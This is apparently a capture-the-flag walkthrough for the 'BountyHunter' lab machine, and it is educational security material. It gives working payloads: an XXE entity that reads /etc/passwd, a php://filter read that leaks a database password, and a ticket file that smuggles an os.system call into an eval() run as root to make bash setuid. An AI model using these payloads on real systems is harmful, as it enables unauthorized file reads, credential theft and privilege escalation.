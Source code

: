 ![Explore.PNG](/assets/Machines/Easy/BountyHunter/BountyHunter.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.100
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.100
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


3. Visit the web page

![web.PNG](/assets/Machines/Easy/BountyHunter/web.PNG)


4. Go to **Portal** >> Click on **here**

![web2.PNG](/assets/Machines/Easy/BountyHunter/web2.PNG)


5. Analyze the petition with **BurpSuite**

![burp.PNG](/assets/Machines/Easy/BountyHunter/burp.PNG)

6. The data is **encode in base64 and urlencode**, use BurpSuite to decode

* First, urldecode data, select all and press `Ctrl` + `Shift` + `u`
* Go to **Decode** and paste the selection data
  
![decode.PNG](/assets/Machines/Easy/BountyHunter/decode.PNG)

* Look the data tramited is a xml, we can inject entities to read files.


7. Read `/etc/passwd` file

* To do that you need to create a entity like `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

* Next, encode data int base64

![xxe.PNG](/assets/Machines/Easy/BountyHunter/xxe.PNG)

8. Send data encode and select all and press `Ctrl` + `u`

![passwd.PNG](/assets/Machines/Easy/BountyHunter/passwd.PNG)

* We look the users **development** and **root**

9. Use **wfuzz** to find more files .php
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| wfuzz -c -t 20 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://bountyhunter.htb/FUZZ.php
```

**Output**
```bash
000000848:   200        0 L      0 W        0 Ch        "db" 
```

* Yep!, sometimes **db files** have credentials

10. Read **db.php** with the entity created, but, this time we use other wrapper to read information.  `php://filter/convert.base64-encode/resource=db.php`

![db.PNG](/assets/Machines/Easy/BountyHunter/db.PNG)

**Output**

![db_out.PNG](/assets/Machines/Easy/BountyHunter/db_out.PNG)


11. Decode this data
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
```

**Output**
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

12. With **password:** m19RoAU0hP41A1sTsq6K and **username"** development login with ssh

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| ssh development@10.10.11.100
```

**Output**
```bash
development@bountyhunter:~$ 
```

13. Cat **user flag**
```bash
development@bountyhunter:~$ cat user.txt 
a074825ca361cc83f2f33f49ba876c71
```

14. Search for any permission
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

* We can run **ticketValidator.py** how root

15. Cat the file
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```


16. The function **eval** can run commands, try to exploit this.

17. You need to create this file in `/tmp`

```txt
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```

18. And run the python file
```bash
development@bountyhunter:/tmp$ sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
```

**Output**
```bash
development@bountyhunter:/tmp$ sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/ticket.md
Destination: 
Invalid ticket.
```
* After, check permissions of `/bin/bash`
```bash
development@bountyhunter:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

19. Execute commando to get bash how root
```bash
development@bountyhunter:/tmp$ bash -p
```

**Output**
```bash
bash-5.0# whoami
root
```

20. Finally, cat the **root flag** in path `/root`
```bash
bash-5.0# cat root.txt 
9e90210e3c71235729ec0277234e4ca5
```